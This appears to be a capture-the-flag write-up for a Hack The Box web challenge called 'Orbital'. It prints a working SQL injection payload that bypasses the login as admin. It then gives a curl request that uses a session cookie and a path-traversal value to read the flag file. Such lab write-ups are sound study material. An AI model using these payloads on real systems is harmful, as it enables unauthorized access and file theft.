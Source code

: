 # Orbital

In order to decipher the alien communication that held the key to their location, she needed access to a decoder with advanced capabilities - a decoder that only The Orbital firm possessed. Can you get your hands on the decoder?

## Writeup

There is a SQL Injection on **/login** page (with a **POST** method). 

So we can use this query in the username field and insert **2** in the password filed to login as **admin**.

This because we can use the SQL Injection to temporarily change the password of admin account, just only to complete the login phase.

**NB:** `c81e728d9d4c2f636f067f89cc14862c` is the **md5sum** of **2**, we must use it because the password in the database are memorized in hash format.

So, login with this credentials:

```
Username: ciao" union select 'admin' as username, 'c81e728d9d4c2f636f067f89cc14862c' as password --

Password: 2
```

Now, we can use the **/export** api to get a file.

For default is communication.mp3 but we can modify the **name** custom header to a **path traversal** of the flag.

The flag in the docker container is copyed as **signal_sleuth_firmware**.

We can see it in the following command of the **DockerFile**:

```dockerfile
# copy flag
COPY flag.txt /signal_sleuth_firmware
COPY files /communications/
```

Now copy the **session** cookie from the **home** page:

![session-cookie](%2Eimages/session-cookie.png)


And use it to do this request to get the flag (with a **path traversal**):

```bash
curl 'http://209.97.134.50:30040/api/export' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  -H 'Connection: keep-alive' \
  -H 'Content-Type: application/json;charset=UTF-8' \
  -H 'Cookie: session=eyJhdXRoIjoiZXlKaGJHY2lPaUpJVXpJMU5pSXNJblI1Y0NJNklrcFhWQ0o5LmV5SjFjMlZ5Ym1GdFpTSTZJbUZrYldsdUlpd2laWGh3SWpveE5qYzVOekEwTkRjMmZRLkU0OHIxRHFCTlplS1BfZjhHaTJCaUZFQXRQbWtJTm1Vc3k3Yl9SSU5FQTQifQ.ZB3tPA.9_YY297R8T24o1KudVtjPAc9dek' \
  -H 'Origin: http://209.97.134.50:30040' \
  -H 'Referer: http://209.97.134.50:30040/home' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36' \
  --data-raw '{"name":"../../../../../../signal_sleuth_firmware"}' \
  --compressed \
  --insecure
```

This is the flag:

```
HTB{T1m3_b4$3d_$ql1_4r3_fun!!!}
```
